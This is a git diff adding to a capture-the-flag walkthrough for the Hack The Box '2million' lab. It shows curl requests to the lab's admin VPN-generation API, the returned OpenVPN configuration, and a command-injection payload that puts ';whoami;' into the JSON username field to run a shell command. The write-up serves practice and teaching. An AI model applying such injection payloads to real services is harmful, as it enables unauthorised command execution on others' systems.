

Before and after one commit to L3B0W5K1/ctf-walkthroughs, a Markdown page: posts/2million.md, the part around the change. Rendered like a GitHub page; blank space fills up the shorter version.

````diff
--- a/posts/2million.md
+++ b/posts/2million.md
@@ -175,3 +175,37 @@ curl -X PUT http://2million.htb/api/v1/admin/settings/update --cookie "PHPSESSID
 }
 ```
 Finally!
+
+
+
+This was done to be able to run the **generate** api, after some of the same progress as above we figure out the correct --data format and so on:
+
+```
+curl -v -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" --header "Content-Type: application/json" --data '{"username":"test"}'
+
+client
+dev tun
+proto udp
+remote edge-eu-free-1.2million.htb 1337
+resolv-retry infinite
+nobind
+persist-key
+persist-tun
+remote-cert-tls server
+comp-lzo
+verb 3
+data-ciphers-fallback AES-128-CBC
+data-ciphers AES-256-CBC:AES-256-CFB:AES-256-CFB1:AES-256-CFB8:AES-256-OFB:AES-256-GCM
+tls-cipher "DEFAULT:@SECLEVEL=0"
+auth SHA256
+key-direction 1
+<ca>
+-----BEGIN CERTIFICATE-----
+MIIGADCCA+igAwIBAgIUQxzHkNyCAfHzUuoJgKZwCwVNjgIwDQYJKoZIhvcNAQEL
+BQAwgYgxCzAJBgNVBAYTAlVLMQ8wDQYDVQQIDAZMb25kb24xDzANBgNVBAcMBkxv
+bmRvbjETMBEGA1UECgwKSGFja1RoZUJveDEMMAoGA1UECwwDVlBO
+...
+...
+```
+
+Here we can inject terminal commands by adding e.g **;whoami;** to the data field``` curl -v -X POST http://2million.htb/api/v1/admin/vpn/generate --cookie "PHPSESSID=4u5vn9hphqotkiou0p8rhuvedc" --header "Content-Type: application/json" --data '{"username":"test;whoami;"}'``` which returns as: ```www-data``` very good.
````
